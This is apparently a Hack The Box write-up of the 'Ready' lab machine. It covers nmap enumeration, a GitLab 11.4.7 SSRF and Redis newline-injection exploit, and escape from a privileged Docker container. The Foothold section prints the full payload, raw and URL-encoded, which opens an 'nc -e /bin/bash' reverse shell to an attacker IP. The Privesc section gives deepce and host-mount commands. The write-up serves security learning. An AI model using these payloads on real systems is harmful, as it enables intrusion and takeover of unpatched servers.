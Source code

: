 ![](ready_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.220 ready.htb

**nmap scan:**
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://ready.htb:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
```

Port 5080 running service nginx http server

Running gitlab instance **Version CE 11.4.7** *get in help section after register with new user*

![](screenshots/running-gitlab.png)

# Foothold

## gitlab <11.4.8 SSRF via IPv6

Searching for gitlab exploit on exploitDB
```bash
❯ searchsploit gitlab 11.4.7
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
GitLab 11.4.7 - RCE (Authenticated) (2)       | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authen | ruby/webapps/49257.py
---------------------------------------------- ---------------------------------
```

* Blog on GitLab 11.4.7 Remote Code Execution from [https://liveoverflow.com/](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)

*liveoverflow explain in his [blog](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) AWA in youtube [video](https://youtu.be/LrLJuyAdoAg)*

**Verify ssrf**

Using IPv6 address to bypass the filter on localhost.

![](screenshots/gitlab-ssrf.png)

and it worked

![](screenshots/bypass-local.png)

## New line injection to Exploit internal redis server

Got Payload form bug reported by [Jobert Abma hacker1 report](https://hackerone.com/reports/299473)
```rb
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|nc -e /bin/bash 10.10.15.71 4141\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
/ssrf.git
```

url encoded from [url-encode-decode.com](https://www.url-encode-decode.com/)

```bash
❯ python payload-gen.py #Scripting left on payload generating becaouse for some reason gitlab returning 422 error on every request outside chromium browser.
IP: 10.10.15.71
Port: 4141
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A+multi%0D%0A+sadd+resque%3Agitlab%3Aqueues+system_hook_push%0D%0A+lpush+resque%3Agitlab%3Aqueue%3Asystem_hook_push+%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class_eval%5C%22%2C%5C%22open%28%5C%27%7Cnc+-e+%2Fbin%2Fbash+10.10.15.71+4141%5C%27%29.read%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system_hook_push%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created_at%5C%22%3A1513714403.8122594%2C%5C%22enqueued_at%5C%22%3A1513714403.8129568%7D%22%0D%0A+exec%0D%0A+exec%0D%0A%2Fssrf.git
```

Intercept "project import" request replace import url with paylad.

![](screenshots/rev_shell.png)

# Privesc

* Inside docker container
```bash
[*] ctn000 Are we in a docker container?................................... yes!
---
... [snip] ...
-rwxr-xr-x 1 root root 0 Dec  1 12:41 /.dockerenv
```

Container's root password floting in `/` root directory but password is not working.

![](screenshots/container-root_pass.png)
<!--YG65407Bjqvv9A0a8Tm_7w-->

Found gitlab config file backup in `/opt/backup/` directory and password.

![](screenshots/gitlab-config.png)

and password work for container root

![](screenshots/container-rooted.png)

Now running [deepce.sh](https://github.com/stealthcopter/deepce) script found Privileged Mode enable.
```bash
[+] Privileged Mode ......... Yes
```

## docker container with privileged

* [Escaping Docker Privileged Containers by Vickie Li](https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1)
* [hacktricks.xyz technique](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#privileged-flag)

**Root-0x1**

Exploit docker Privileged Mode with deepce script
```bash
./deepce.sh --no-enumeration --exploit PRIVILEGED -cmd 'hostname' -q
```
![](screenshots/exploit-deepce.png)

**Root-0x2**

The `--privileged` (Privileged Mode) flag allows the container to have access to the host devices. So container root user can mount host.

Privileged Mode allow continer root to run fdisk on host.
```bash
(remote) root@gitlab.example.com:/tmp$ fdisk -l
... [snip] ...

Device        Start      End  Sectors Size Type
/dev/sda1      2048     4095     2048   1M BIOS boot
/dev/sda2      4096 37746687 37742592  18G Linux filesystem
/dev/sda3  37746688 41940991  4194304   2G Linux swap
```

Host is in `/dev/sda2`

mounting host in the comtainer
```bash
mkdir /tmp/host
mount /dev/sda2 /tmp/host
wc -c /tmp/host/root/root.txt
```

![](screenshots/mount-rooted.png)


finally root shell with deepce script

![](screenshots/root-shell.png)
